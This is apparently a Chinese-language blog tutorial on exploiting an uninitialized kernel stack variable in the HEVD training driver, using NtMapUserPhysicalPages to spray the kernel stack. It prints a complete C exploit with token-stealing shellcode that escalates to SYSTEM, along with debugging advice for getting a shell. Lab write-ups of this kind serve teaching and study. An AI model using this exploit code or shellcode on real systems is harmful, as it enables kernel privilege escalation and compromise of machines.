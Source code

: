<small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为未初始化内核栈变量漏洞分析利用 (Uninitialized Stack Variable)

## 0x01 未初始化栈变量漏洞分析
首先我们打开 UninitializedMemoryStack.c 文件

![alt 1](images/uninitializedStackVariable/1.jpg)

结合定义 UninitializedMemory 变量时没有对它进行初始化，可以看到，当我们的输入不等于 MagicValue 时，程序会直接 call [&UninitializedMemory + 4]，而这个值因为没有被初始化，又没有被赋值，所以会直接调用栈上的脏数据。若栈上的脏数据是我们的 shellcode 的地址的话，那我们又可以接管指令流了。

问题是，我们有什么办法可以使栈上的脏数据变为我们的 shellcode 的地址呢？

这里可以用到一种叫做栈喷射的方法，将大块的栈空间提前用我们的 shellcode 的地址去改写。以后若是在这个栈区域上发生了对未初始化函数指针的调用，就会执行我们的指令流了。

那么我们如何做到对内核栈进行喷射呢？（因为我们的漏洞是发生在内核模式下的，漏洞代码所使用的栈空间是内核栈，所以应该是对内核栈进行喷射而不是用户栈）

这里可以用到 NtMapUserPhysicalPages 函数。我们先看看这个函数的官方文档

![alt 2](images/uninitializedStackVariable/2.jpg)

这个函数正常来说是用在 AWE 的使用中的。但是这对我们来说不重要，我们的目的是栈喷射。稍微到 wrk1.2 中看看它的源码，我这里大概将与栈喷射相关的伪代码呈现出来

```c
#define COPY_STACK_SIZE             1024

NTSTATUS
NtMapUserPhysicalPages (
    __in PVOID VirtualAddress,
    __in ULONG_PTR NumberOfPages,
    __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
    )
{
    ...
    ULONG_PTR StackArray[COPY_STACK_SIZE];
    ...
    PoolArea = (PVOID)&StackArray[0];
    ...

    if (NumberOfPages > COPY_STACK_SIZE) {
        PoolArea = ExAllocatePoolWithTag (NonPagedPool, NumberOfBytes, 'wRmM');
    
        if (PoolArea == NULL) {
            return STATUS_INSUFFICIENT_RESOURCES;
        }
    }
    

    Status = MiCaptureUlongPtrArray (PoolArea, UserPfnArray, NumberOfPages);

    ...
}

NTSTATUS
MiCaptureUlongPtrArray (
    OUT PVOID Destination,
    IN PVOID Source,
    IN ULONG_PTR ArraySize
    )
{
    try{
            ProbeForRead (Source,
                          ArraySize * sizeof(ULONG_PTR),
                          sizeof(ULONG_PTR));

            RtlCopyMemory (Destination,
                           Source,
                           ArraySize * sizeof(ULONG_PTR));

    } except(EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }
}

```

大致上说，当我们调用 NtMapUserPhysicalPages 时，会在栈中分配一个 4096 个字节的变量 StackArray，而我们调用 NtMapUserPhysicalPages 时传递的参数 UserPfnArray 会被复制到这个位置上。

对于内核栈来说，4096个字节真的已经算挺大的了。若我们把这一段栈空间全部替换成我们的 shellcode 的地址，然后触发漏洞时未初始化变量所使用的栈又正好在这一段地址上，且这个位置的栈又正好没有被其它函数所修改过的话（从 RtlCopyMemory 执行完直到 UninitializedMemory.Callback() ），那么 UninitializedMemory.Callback() 的时候就会执行我们的 shellcode 了。

所以，没错，当我们调用完 NtMapUserPhysicalPages 后若立即调用 DeviceIoControl 去请求服务触发漏洞的话，这一切就是正好这么凑巧。

： )

## 0x02 未初始化栈变量漏洞利用
这个漏洞的利用原理其实挺简单的，但要真正使这个漏洞生效其实不容易。让变量落在这一段空间中倒是挺可能，毕竟 4096 个字节真的挺大的。问题是你很难确保未初始化变量所在的位置没有被其它函数修改过。

这里贴出 exp

```c
#include "stdafx.h"

#include <windows.h>

typedef NTSTATUS(WINAPI * NtMapUserPhysicalPages_t)(
	PVOID      VirtualAddress,
	ULONG_PTR  NumberOfPages,
	PULONG_PTR PageArray
);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
};

int main() {

	int value = 0x1;
	int *payload = &value;
	DWORD lpBytesReturned = 0;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));
	ULONG_PTR PageArray[1024] = { 0 };
	for (int i = 0; i < 1024; i++) {
		PageArray[i] = (ULONG_PTR)ptr;
	}

	HMODULE hModule = LoadLibrary("ntdll.dll");
	if (hModule == NULL) {
		printf("LoadLibrary failed\n");
		return 0;
	}
	NtMapUserPhysicalPages_t NtMapUserPhysicalPages = (NtMapUserPhysicalPages_t)GetProcAddress(hModule, "NtMapUserPhysicalPages");
	if (NtMapUserPhysicalPages == NULL) {
		printf("get proc address failed\n");
		return 0;
	}
	NtMapUserPhysicalPages(NULL, 1024, PageArray);

	DeviceIoControl(hevDevice, 0x22202f, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

	return 0;

}
```

### 关于 exp 无法 getshell 的可能原因
这里我在调试时发现

![alt 3](images/uninitializedStackVariable/3.jpg)

![alt 4](images/uninitializedStackVariable/4.jpg)

![alt 5](images/uninitializedStackVariable/5.jpg)

（这里就不把图片压缩太多了，不然怕你们看不清，所以加载可能会慢一点）

大家可以看到即使是 esp 再往低地址的空间也被什么东西修改过了，要一直到很远

![alt 6](images/uninitializedStackVariable/6.jpg)

才彻底没有被函数修改过。虽然中间可能存在 shellcode 的 gadget，但可以看到我们的漏洞函数的栈中是不存在任何 shellcode 的地址的。

这时候我就在想啊，一来看别人这个方法都是成功的，二来从 NtMapUserPhysicalPages 到 TriggerUninitializedMemoryStack 也就经历退出内核态回到用户态，以及 DriverEntry -> IrpDeviceIoCtlHandler -> UninitializedMemoryStackIoctlHandler -> TriggerUninitializedMemoryStack 这么一个过程，不至于用掉这么多空间吧。要说这过程中有什么东西可能插手的话，就只有可能是 Debug 了。

然后我就把 HEVD 驱动程序换成了 release 版本的，把 windbg 关掉，诶嘿，还真 getshell 了。

所以如果你的情况和我一样的话（首先确保栈喷射确实成功了），你不妨试试去掉所有 debug 因素。

## 0x03 结束语

： )

---
<p align='right'>2019.9.5</p>